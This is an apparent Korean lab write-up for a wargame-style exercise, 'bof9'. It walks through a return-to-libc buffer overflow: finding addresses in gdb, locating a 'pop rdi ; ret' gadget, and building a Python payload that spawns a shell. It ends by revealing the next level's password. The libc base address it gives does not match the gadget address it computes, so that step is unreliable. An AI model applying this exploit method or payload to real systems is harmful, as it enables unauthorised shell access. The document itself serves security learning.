







# HW-8
## bof9

먼저 `gdb bof9`에서 `vmmap`를 통해 보면 'stack'에 실행 권한이 없다는 것을 알 수 있다.



그러므로 지금까지 했던 방법으로는 쉘을 열 수가 없다. 그래서 이번엔 'libc.so'에 있는 함수를 통해 쉘을 열어야 하는데

1. 'system 함수'의 주소를 알아내야 한다.
2. '/bin/sh'의 주소를 'rdi'에 넣어준다.

system 주소는 `p system`으로 볼 수 있다.



system 주소 : *0x7ffff7a52390*

/bin/sh 주소는 `search-pattern /bin/sh`로 볼 수 있다.



/bin/sh 주소 : *0x7ffff7b99d57*

그리고 위치는 *tmp/2.23/libc.so.6* 이다.

그리고 buf와 return address의 거리를 저번과 같은 방법으로 알아본다.

'vuln 함수'를 들어가자마자 'rsp'를 보면 return address의 거리가 나온다.



 return address : *0x00007fffffffe4b8* 

 'gets 함수'의 'rdi'는 buf의 주소이다.

 

buf 주소 : *0x00007fffffffe4a8* 

이 둘의 거리는 *16* 이다.

이제, rdi에 /bin/sh을 넣어줘야 하는데, 'pop rdi ; ret' 를 사용하면 된다. 



`ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret` 를 사용하면 찾아주는데, 이 중 *0x0000000000021102를 사용한다. 하지만 이 주소는 libc의 시작 주소에서 이만큼 떨어져 있다는 의미이다. 그래서 다시 'gdb' 의 'vmmap'로 들어가서


libc.so.6 의 시작 주소는 0x0000555555555000 이고, 여기서 아까 구한 값을 더해주면 'pop rdi ; ret'의 주소를 알 수 있다.

pop rdi ; ret 주소 : *0x7ffff7a2e102*

이제, 함수를 실행할 때 16byte를 채워주고, 'pop rdi ; ret' 주소, '/bin/sh' 주소 , 'system' 주소를 넣어주면 된다.

```
(python -c "print 'x'*16+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
```

bof10의 비밀번호는 **120bf293** 이다.

